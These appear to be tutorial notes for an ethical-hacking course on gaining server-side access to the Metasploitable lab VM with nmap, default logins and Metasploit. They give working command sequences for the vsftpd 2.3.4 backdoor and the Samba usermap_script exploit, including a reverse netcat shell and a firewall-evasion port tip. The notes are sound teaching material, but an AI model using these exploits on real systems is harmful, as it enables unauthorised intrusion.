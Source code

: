# Gaining access — server side attack
-   to test this in VMware, download metasploitable from [this link](https://sourceforge.net/projects/metasploitable/)
    -   login: msfadmin 
    -   pass: msfadmin

-   these attacks don't require user interaction
-   need an IP address of the victim
    -   get ip address of service simply by ping (example: `ping facebook.com`) 

-   <strong>Testing the security of servers is always having these steps:</strong>
    1)  Discover open ports and running services (nmap)
    2)  Find vulnerabilities
    3)  Find exploits
    4)  Exploit/Verify them 
    5)  Report results

## Ways of gaining access:
-   trying default passwords
-   services might be misconfigured
-   scan for vulnerabilities 
    -   To scan for open ports and running services it is possible to use Zenmap/nmap as discussed in chapter 05. After intense scan of IP address scroll to the part with ports (marked green)

## Examples with Metasploitable mentioned above using Metasploit:
-   Metasploit is an exploit development and execution tool included in Kali linux
-   usage:
    -   `msfconsole` : runs metasploit console
    -   `help` : shows help
    -   `show [something]` : something can be exploits, payloads, auxiliaries or options.
    -   `use [something]` : use a certain exploit, payload or auxiliary
    -   `set [option] [value]` : configure option to have a value
    -   `exploit` : tuns the current task

-   On metasploitable which is mentioned at the top. Vulnerabilities like misconfigured ftp (anonymous FTP login allowed, just login through FileZilla without password and username) or includes vsftpd 2.3.4, which has a backdoor (can be found by googling). All can be found with Zenmap with setting intense scan.
-   tip: any vulnerability can be found by service name with version followed by exploit example: `vsftpd 2.3.4 exploit`

### Default password / misconfigured service in Metasploitable
-   it also includes running `netkit-rsh rexecd` on port 512, which allows remote shell connection and execution.
    -   here we can try default login `root`:
```bash
apt-get install rsh-client # first install required tool which can be googled
rlogin -l root 192.168.72.130 # login via installed tool
```

### Backdoors vulnerability in Metasploitable using Zenmap and Metasploit
-   Use Zenmap on the machine running Metasploitable Linux
    1)  Open Zenmap on Kali linux and find Metasplitable linux and all its running services and open ports
    2)  Google vulnerabilities in found services running in open ports (hint:`vsftpd 2.3.4` is the service including the backdoor vulnerability)
    3)  find out (by googling) that the vulnerability is exploitable by meatasploit using it's module `exploit/unix/ftp/vsftpd_234_backdoor` 
-   Open cmd in Kali linux and use msfconsole to exploit the vulnerability:
```bash
msfconsole # run metasploit console
use exploit/unix/ftp/vsftpd_234_backdoor # use the found exploit
show options # show all the options that can be set for the module
set RHOST 192.168.72.130 # set the ip address of the Metasploitable linux
set RPORT 21 # set the port which the service is running on
show options # check if set properly
exploit # exploit the vulnerability
```
-   it will exploit the vulnerability and connect us to the command prompt of the Metasploitable linux

### Code execution vulnerability in Metasploitable using Zenmap and Metasploit
-   as above find vulnerability in service `Samba smbd 3.X - 4.X` and module in Metasploit console
-   this vulnerability isn't connected to backdoor / any code execution
-   it is a vulnerability which allow us to run small pieces of code (payloads)
-   first we need to create payload and run it on the attacked pc. `msfconsole` already includes some
```bash
msfconsole
use exploit/multi/samba/usermap_script
show options
set RHOST 192.168.72.130
show options
show payloads # show available payloads
```
-   shows 2 main types of payloads:
    -   bind: opens port on attacked pc and connects to it
    -   reverse: opens port on our machine and connects the attacked pc to it (might help with bypassing firewall rule for connections to the device)
```bash
set PAYLOAD payload/cmd/unix/reverse_netcat # pick payload
show options # more options will show, connected to picked PAYLOAD
set LHOST 192.168.72.129 # set our machine ip (ifconfig)
set LPORT 4444 # can be set to 80, which is usually never filtered by firewalls
exploit # establishes the connection
```

## Nexpose
-   Vulnerability management Framework for big companies
-   By creating site, it can test the specific IP address or range of addresses in similar way to zenmap. The tests can be scheduled to be run automatically also in intervals. It also shows used software, evaluates damage and attack potential and calculates risk
-   Helps to:
    -   discover open port and running services
    -   find vulnerabilities
    -   find exploits
    -   verify them
    -   generate reports (2 types of reports: technical and high-level report)
    -   automate scans